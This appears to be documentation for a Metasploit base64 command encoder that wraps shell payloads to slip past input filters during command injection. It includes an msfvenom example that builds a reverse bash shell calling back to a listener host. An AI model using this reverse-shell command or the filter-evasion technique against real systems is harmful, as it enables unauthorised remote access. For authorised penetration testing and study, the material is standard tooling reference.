 # Base64 Command Encoder

## Module Overview

This encoder uses base64 encoding to avoid bad characters in command payloads sent to UNIX-like systems. It is useful when you need to inject or execute shell commands but certain characters (such as spaces, dashes, or special symbols) are not allowed.

The encoder wraps the base64-encoded payload in a command that decodes and executes it on the target, using available utilities like `base64`, `openssl`, or various shell redirection tricks.

## Options

- **Base64Decoder** (optional): The binary to use for base64 decoding. Options are:
  - `base64` (auto-detects and uses `base64 --decode` or `base64 -d`)
  - `base64-long` (forces `base64 --decode`)
  - `base64-short` (forces `base64 -d`)
  - `openssl` (uses `openssl enc -base64 -d`)

Default is to automatically select an available decoder based on the target environment.

## Usage Example

To use this encoder with a payload (example: reverse bash shell):

```sh
msfvenom -p cmd/unix/reverse_bash LHOST=10.0.0.1 LPORT=4444 -e cmd/base64
```

Or, within Metasploit:

```
set ENCODER cmd/base64
set Base64Decoder base64
```

## Scenarios

- Useful for web exploits, command injection, and any context where only a limited set of shell characters are allowed
- Helps bypass input filters by avoiding problematic characters.

## References

- [Base64 encoding - Wikipedia](https://en.wikipedia.org/wiki/Base64)
